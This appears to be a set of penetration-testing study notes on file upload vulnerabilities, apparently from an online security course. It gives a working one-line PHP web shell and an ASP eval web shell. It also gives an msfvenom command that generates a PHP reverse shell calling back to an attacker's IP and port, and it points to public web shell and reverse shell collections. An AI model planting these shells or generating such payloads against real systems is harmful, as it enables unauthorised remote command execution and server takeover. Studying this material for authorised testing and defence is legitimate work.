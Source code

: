### Absent Validation 
The most basic type of file upload vulnerability occurs when the web application `does not have any form of validation filters` on the uploaded files, allowing the upload of any file type by default.

## Web Shells
We can find many excellent web shells online that provide useful features, like directory traversal or file transfer. One good option for `PHP` is [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell. Furthermore, [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the `/opt/useful/SecLists/Web-Shells` directory in `PwnBox`.

## Writing Custom Web Shell
```php
<?php system($_REQUEST['cmd']); ?>
```
Web shells are not exclusive to `PHP`, and the same applies to other web frameworks, with the only difference being the functions used to execute system commands. For `.NET` web applications, we can pass the `cmd` parameter with `request('cmd')` to the `eval()` function, and it should also execute the command specified in `?cmd=` and print its output, as follows:
```asp
<% eval request('cmd') %>
```


One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.


## Generating Custom Reverse Shell Scripts
```shell-session
$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```